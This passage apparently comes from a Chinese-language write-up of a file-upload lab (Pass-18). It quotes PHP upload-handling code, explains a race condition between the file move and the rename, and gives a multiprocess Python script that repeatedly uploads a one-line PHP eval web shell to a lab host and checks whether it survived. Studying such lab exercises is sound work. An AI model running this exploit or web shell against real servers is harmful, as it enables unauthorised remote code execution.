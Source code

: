 ```php
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
};
```

后端对后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，将文件上传后，对文件重新命名。这样同样存在条件竞争的漏洞。可以使用脚本进行多线程跑，由于条件竞争，程序会出现来不及rename的问题，从而上传成功。

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://192.168.254.153/Pass-18/index.php"
    geturl="http://192.168.254.153/upload/shell.php.7z"
    file={'upload_file':('shell.php.7z',"<?php @eval($_POST['c1imber']);?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
```